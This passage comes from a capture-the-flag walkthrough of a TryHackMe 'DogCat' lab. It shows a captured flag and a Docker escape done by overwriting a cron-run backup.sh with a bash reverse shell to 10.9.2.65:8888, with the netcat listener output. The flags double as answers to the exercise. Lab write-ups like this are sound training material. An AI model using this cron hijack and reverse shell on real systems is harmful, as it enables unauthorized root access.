 ## Flag 3

Next I checked `/root` and found flag 3:

~~~
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
~~~

Flag 3: `THM{D1ff3r3nt_3nv1ronments_874112}`

## Getting out of the container

I looked a lot in the directories but couldn't find the last flag, then I realized something in `/`:
~~~
cd /
ls -la
total 80
drwxr-xr-x   1 root root 4096 Oct 11 16:07 .
drwxr-xr-x   1 root root 4096 Oct 11 16:07 ..
-rwxr-xr-x   1 root root    0 Oct 11 16:07 .dockerenv  <---------------
drwxr-xr-x   1 root root 4096 Feb 26  2020 bin
drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
[REDACTED]
~~~

We are in a docker container and we need to get out. We can also see this from the result of running `hostname`.

I found a file called `backup.sh` in `/opt/backup` and by running the `ls -l`, we can see that the `tar` file in the same directory has been modified recently which means that the bash script is running every minute and it creats a new tar file.

We can use this cronjob to escape. I changed the bash script to a bash reverse shell and started a listener on my machine and now we are out.

~~~
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
ls -l
total 2884
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Oct 11 17:08 backup.tar
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.9.2.65/8888 0>&1' > backup.sh
~~~

after waiting for a few seconds I got a shell as root:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/DogCat/files]
└─$ rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.2.65] from (UNKNOWN) [10.10.24.27] 56092
bash: cannot set terminal process group (4777): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~#
~~~
